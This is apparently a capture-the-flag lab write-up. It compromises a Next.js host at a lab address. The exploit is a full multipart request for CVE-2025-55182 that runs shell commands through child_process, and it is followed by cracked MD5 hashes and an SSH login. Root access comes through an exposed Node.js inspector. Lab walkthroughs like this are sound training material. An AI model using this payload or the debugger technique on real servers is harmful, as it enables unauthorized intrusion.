

# Attack Chain

```
└─► nmap → :22 SSH + :3000 Next.js
	└─► nuclei → CVE-2025-55182 (Next.js RSC deserialization)
        └─► POST / payload React Flight (Burp Suite) → RCE
            └─► strings reactor.db → 2 hashes MD5
                └─► CrackStation → engineer:reactor1
                    └─► SSH engineer:reactor1 → Shell as engineer
                        └─► netstat → :9229 Node.js inspector exposed
	                        └─► ps → worker.js (PID 1397) run as root
		                        └─► RCE as root from Node.js debugger
```

# Sommaire

- [Enumeration](#enumeration)
	- [Nmap](#nmap)
	- [Nuclei](#nuclei)
- [CVE-2025-55182 - Next.js RSC Deserialization](#cve-2025-55182---nextjs-rsc-deserialization)
	- [Exploit](#exploit)
	- [reactor.db](#reactordb)
	- [Crack hashes](#crack-hashes)
	- [Shell as engineer](#shell-as-engineer)
- [Privilege Escalation](#privilege-escalation)
	- [Port Forwarding](#port-forwarding)
	- [Debugger exploit](#debugger-exploit)

---

# Enumeration

### Nmap
```
nmap -sVC 10.129.4.18                                          
Starting Nmap 7.93 ( https://nmap.org ) at 2026-05-26 02:58 EDT
Nmap scan report for 10.129.4.18
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 cefd0d82c023ed6e4bea13fa4feaefb7 (ECDSA)
|_  256 f844c646587a3921ef1644e958c2f362 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Tue, 26 May 2026 06:58:54 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Tue, 26 May 2026 06:58:55 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Tue, 26 May 2026 06:58:56 GMT
|_    Connection: close
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.38 seconds
```
A web application built with Next.js is running on port 3000.

### Nuclei

Let's scan for known vulnerabilities with `nuclei`.
```
nuclei -u http://10.129.4.18:3000

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.5.1

                projectdiscovery.io

[INF] Current nuclei version: v3.5.1 (outdated)
[INF] Current nuclei-templates version: v10.4.3 (latest)
[INF] New templates added in latest release: 103
[INF] Templates loaded for current scan: 10200
[INF] Executing 10184 signed templates from projectdiscovery/nuclei-templates
[WRN] Loading 16 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 2296 (Reduced 2165 Requests)
[INF] Using Interactsh Server: oast.live

[CVE-2025-55182] [http] [critical] http://10.129.4.18:3000

```
Port 3000 is vulnerable to **CVE-2025-55182**, a deserialization flaw in Next.js React Server Components. Exploiting it gives us remote code execution on the target.
# CVE-2025-55182 - Next.js RSC Deserialization

### Exploit

To exploit it, we send the following request through `Burpsuite`, which executes the `id` command on the server.

```
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Next-Action: x
X-Nextjs-Request-Id: b5dce965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: SSTMXm7OJ_g0Ncx6jpQt9
Content-Length: 740

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id',{'timeout':5000}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```


The exploit works as expected.

### reactor.db

The current directory contains a file named `reactor.db`. We inspect its contents with `strings`.


The database file contains two MD5 hashes. One for `engineer` and one for `admin`.

### Crack hashes

We attempt to crack them with https://crackstation.net/.

`engineer : 39d97110eafe2a9a68639812cd271e8e`
`admin : a203b22191d744a4e70ada5c101b17b8`




Only the `engineer` hash is cracked, revealing the password `reactor1`. The `admin` hash was not present in CrackStation's lookup tables.

### Shell as engineer

Let's try to connect over SSH.

```
ssh engineer@10.129.4.18                   
engineer@10.129.4.18's password: reactor1
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
Last login: Tue May 26 07:27:21 2026 from 10.10.16.87
```

We can get the user flag from here.

# Privilege Escalation

The installed sudo version (1.9.15p5) falls within the CVE-2025-32463 vulnerable range, but exploitation failed since no compiler is available on the target and the `-R` option is rejected. 

We enumerate the internally exposed ports instead.

```
netstat -tnlp
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9229          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   
```
Port 9229 is listening locally, which is the Node.js debug/inspector endpoint.

This is a promising vector. The Chrome DevTools protocol has no authentication, so anyone who can reach the port can execute code as the user running the service.

We check which user owns the process with the following command.

```
ps -eo pid,user,cmd | grep -i '[n]ode'
   1395 node     next-server (v15.0.3)
   1397 root     /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

The `worker.js` process (PID 1397) runs as `root` with the inspector exposed, while the main `next-server` runs as the unprivileged `node` user. This is a misconfiguration we can exploit.

### Port Forwarding

Port forwarding isn't required here, but I chose this approach.

Since we have SSH credentials, we forward the port locally.

```
ssh -L 9229:127.0.0.1:9229 engineer@10.129.4.18
```

### Debugger exploit

Let's attach to the Node.js inspector

```
node inspect 127.0.0.1:9229
```

Let's try to execute command now
```
debug> exec("process.mainModule.require('child_process').execSync('id').toString()")
'uid=0(root) gid=0(root) groups=0(root)\n'
```

Command execution as root is confirmed. From here we can read the root flag, or spawn a reverse shell.
```
debug> exec("process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()")
```
